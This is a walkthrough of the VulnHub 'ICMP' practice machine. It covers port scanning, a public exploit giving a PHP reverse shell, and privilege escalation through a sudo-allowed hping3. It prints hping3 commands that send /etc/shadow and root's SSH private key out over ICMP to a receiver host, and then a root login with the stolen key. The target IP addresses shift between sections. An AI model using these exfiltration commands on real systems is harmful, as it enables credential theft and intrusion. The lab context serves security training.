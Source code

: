 # ICMP

## **Description ⤵️**

>
💡 [ICMP](https://www.vulnhub.com/entry/icmp-1,633/) ⤵️

Easy box, monitor resources

This works better with VirtualBox rather than VMware

{: .prompt-info }

Let’s find the IP Address first >>

![171-1.png](/Vulnhub-Files/img/ICMP/171-1.png)

```bash
IP : 10.0.2.24
```

## Port Scan Results ➡️

![171-2.png](/Vulnhub-Files/img/ICMP/171-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
```

---

## Web Enumeration ⤵️

![171-3.png](/Vulnhub-Files/img/ICMP/171-3.png)

Lets check an exploit for this Monitoring System →

![171-4.png](/Vulnhub-Files/img/ICMP/171-4.png)

Now I executed the shell →

![171-5.png](/Vulnhub-Files/img/ICMP/171-5.png)

Lets load the reverse shell url →

URL → [http://10.0.2.24/mon/assets/data/usrimg/she_ll.php](http://10.0.2.24/mon/assets/data/usrimg/she_ll.php)

![171-6.png](/Vulnhub-Files/img/ICMP/171-6.png)

Response →

![171-7.png](/Vulnhub-Files/img/ICMP/171-7.png)

---

## SHELL ➡️

![171-8.png](/Vulnhub-Files/img/ICMP/171-8.png)

```bash
local.txt → c9db6c88939a2ae091c431a45fb1e59c
```

![171-9.png](/Vulnhub-Files/img/ICMP/171-9.png)

![171-10.png](/Vulnhub-Files/img/ICMP/171-10.png)

![171-11.png](/Vulnhub-Files/img/ICMP/171-11.png)

So the crypt file is basically inside the devel file →

![171-12.png](/Vulnhub-Files/img/ICMP/171-12.png)

Now I got in with this password → `BUHNIJMONIBUVCYTTYVGBUHJNI`

![171-13.png](/Vulnhub-Files/img/ICMP/171-13.png)

Lets see how fox can leads me to root !

![171-14.png](/Vulnhub-Files/img/ICMP/171-14.png)

Lets use this ⤵️

![Untitled](/Vulnhub-Files/img/ICMP/Untitled.png)

It allowed a command to run as root. Since we must use ICMP mode, we cannot spawn a shell. However, we can transfer files to a different machine. We could try sending the shadow file or try to send an SSH private key.

Reference: [https://iphelix.medium.com/hping-tips-and-tricks-85698751179f](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

For this, we require to set up hping3 in listen mode in the receiver machine, whereas from the target machine, we have to send the file.

IP of the receiver machine: 10.0.2.15

IP of the target machine: 10.0.2.60

On the receiver machine, we have to do the following.

```
sudo hping3 -1 10.0.2.24 -9 signature -I eth0 --safe
```

On the target machine, we should do as follows to get the shadow file.

```
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /etc/shadow -d 2000 -c 1
```

This gave me output in my receiving machine. In the command above, -c 1 is the number of times the ping operation is performed. Since we have data size of 2000, we just need a single ping. However, you can completely change the value or exclude it to manually exit later.

![https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png](/Vulnhub-Files/img/https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png)

I tried bruteforcing the password but had no luck. Next, I tried to get the private key using the same method.

```
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /root/.ssh/id_rsa -d 2000
```

I got the response like the following. Thus, I decided to do the same in the two different SSH instances of the target machine.

![https://nepcodex.com/wp-content/uploads/2021/07/image-134.png](/Vulnhub-Files/img/https://nepcodex.com/wp-content/uploads/2021/07/image-134.png)

On the target machines,

```
# SSH instance 1
sudo hping3 --icmp 127.0.0.1 --listen signature --safe
```

```
# SSH instance 2
sudo hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 4000 -c 2
```

![https://nepcodex.com/wp-content/uploads/2021/07/image-135.png](/Vulnhub-Files/img/https://nepcodex.com/wp-content/uploads/2021/07/image-135.png)

Finally, I got the proper response. Next, I copied it to a file on my local machine.

```
vi id_rsa # Copy the key
chmod 600 id_rsa # This will restrict the private key permissions
```

Lastly, I could log in to the system.

```
ssh root@10.0.2.24 -i id_rsa
```

![https://nepcodex.com/wp-content/uploads/2021/07/image-136.png](/Vulnhub-Files/img/https://nepcodex.com/wp-content/uploads/2021/07/image-136.png)

---